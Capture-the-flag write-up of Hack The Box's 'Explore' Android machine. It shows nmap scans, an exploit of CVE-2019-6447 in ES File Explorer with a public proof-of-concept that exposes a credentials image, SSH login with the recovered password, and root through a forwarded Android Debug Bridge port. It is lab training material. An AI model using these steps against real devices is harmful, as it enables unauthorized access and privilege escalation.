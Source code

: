 ```yaml
---
title:     "Hack The Box - Explore"
tags: [easy,android,adb,cve]
categories: HackTheBox
---
```

[![info_card](/img/explore/info_card.png)](/img/explore/info_card.png)

# User
Explore is an easy rated machine on HackTheBox by [bertolis](https://www.hackthebox.eu/home/users/profile/27897). For the user part we will exploit an open port for ES file explorer to retrieve ssh credentials in a jpg file. After this we will abuse adb being enabled and listening to get a shell as the root user after forwarding it to our machine.

## Nmap

As always we start our enumeration off with a nmap scan against all ports, followed by a script and version detection scan against the open ones to get an overview of the initial attack surface.

`All ports`
```
$ sudo nmap -p- -T4 10.129.167.241
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 20:21 GMT
Nmap scan report for 10.129.167.241
Host is up (0.044s latency).
Not shown: 65531 closed ports
PORT      STATE    SERVICE
2222/tcp  open     EtherNetIP-1
5555/tcp  filtered freeciv
38363/tcp open     unknown
59777/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 82.24 seconds
```

`Script and version`
```
$sudo nmap -sC -sV -p 2222,5555,38363,59777 10.129.167.241
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 20:25 GMT
Nmap scan report for 10.129.167.241
Host is up (0.033s latency).

PORT      STATE    SERVICE VERSION
2222/tcp  open     ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-SSH Server - Banana Studio
| ssh-hostkey:
|_  2048 71:90:e3:a7:c9:5d:83:66:34:88:3d:eb:b4:c7:88:fb (RSA)
5555/tcp  filtered freeciv
38363/tcp open     unknown
| fingerprint-strings:
|   GenericLines:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:04 GMT
|     Content-Length: 22
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|   GetRequest:
|     HTTP/1.1 412 Precondition Failed
|     Date: Sun, 27 Jun 2021 20:27:04 GMT
|     Content-Length: 0
|   HTTPOptions:
|     HTTP/1.0 501 Not Implemented
|     Date: Sun, 27 Jun 2021 20:27:10 GMT
|     Content-Length: 29
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Method not supported: OPTIONS
|   Help:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 26
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line: HELP
|   RTSPRequest:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:10 GMT
|     Content-Length: 39
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     valid protocol version: RTSP/1.0
|   SSLSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 73
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ?G???,???`~?
|     ??{????w????<=?o?
|   TLSSessionReq:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 71
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|     ??random1random2random3random4
|   TerminalServerCookie:
|     HTTP/1.0 400 Bad Request
|     Date: Sun, 27 Jun 2021 20:27:25 GMT
|     Content-Length: 54
|     Content-Type: text/plain; charset=US-ASCII
|     Connection: Close
|     Invalid request line:
|_    Cookie: mstshash=nmap
59777/tcp open     http    Bukkit JSONAPI httpd for Minecraft game server 3.6.0 or older
|_http-title: Site doesn't have a title (text/plain).
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port2222-TCP:V=7.91%I=7%D=6/27%Time=60D8DED0%P=x86_64-pc-linux-gnu%r(NU
SF:LL,24,"SSH-2\.0-SSH\x20Server\x20-\x20Banana\x20Studio\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
...[snip]...
SF:e\x03\x03U\x1c\?\?random1random2random3random4\0\0\x0c\0/\0");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 102.22 seconds
```

# ES file explorer

Port 59777 on an android device is normally used for ES file explorer. Opening the port in our webbrowser we see that directory listing is disabled.

[![listing_disabled](/img/explore/listing_disabled.png)](/img/explore/listing_disabled.png)

The running installation is vulnerable to [CVE-2019-6447](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln), which let's us read files from the device or start an app. Looking through the images on the device we find an interesting looking `creds.jpg` file.

```
$ python poc.py  --cmd listPics --ip 10.129.167.241
[*] Executing command: listPics on 10.129.167.241
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```

The image shows a note with the password for the user katie. Trying it on the open ssh port with the credentials `kristi:Kr1sT!5h@Rp3xPl0r3!` we get access to the device.

[![creds](/img/explore/creds.png)](/img/explore/creds.png)

```
$ ssh kristi@10.129.167.241 -p 2222
Password authentication
Password:
:/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768
:/ $
```

Looking around in the storage folder which also had the image in it we find the user flag.

```
:/storage/emulated/0 $ wc -c user.txt
33 user.txt
```

# Root

We earlier saw that port 5555 showed up in our nmap scan. This is most likely the Android Debug Bridge being enabled on the device.

> “The adb command facilitates a variety of device actions, such as installing and debugging apps, and it provides access to a Unix shell that you can use to run a variety of commands on a device.” — Android’s developer portal

Being able to communicate with it would most likely give us unauthenticated root access to the device.
Checking it again we can see it is listening on all interfaces but seems to be filtered for us.

```
:/storage/emulated/0 $ ss -ln
Netid  State      Recv-Q Send-Q Local Address:Port               Peer Address:Port
...[snip]...
tcp    LISTEN     0      50        *:2222                  *:*
tcp    LISTEN     0      4         *:5555                  *:*
```

We can however access it if we forward the port to our machine with ssh. For this we open the ssh console in our connection by entering `~C` on a new line and issue the local port forward.

```
:/storage/emulated/0 $
ssh> -L:5555:127.0.0.1:5555
Forwarding port.
```

After installing adb on our machine with `apt install adb` we kill the adb server, in case it was already running, so it restarts on the next command.

```
$ adb kill-server
```

We then list all devices to be able to connect to our target with its device name in the next step.

```
$ adb devices
* daemon not running; starting now at tcp:5037

* daemon started successfully
List of devices attached
emulator-5554   device

```

Now we can simply connect to the debugging bridge as the root user and drop into a root shell with `adb shell`.

```
$ adb -s emulator-5554 root
restarting adbd as root
```

```
$ adb shell
x86_64:/ # whoami
root
```

Being the root user we can now add the flag to our collection

```
x86_64:/ # wc -c /data/root.txt
33 /data/root.txt
```
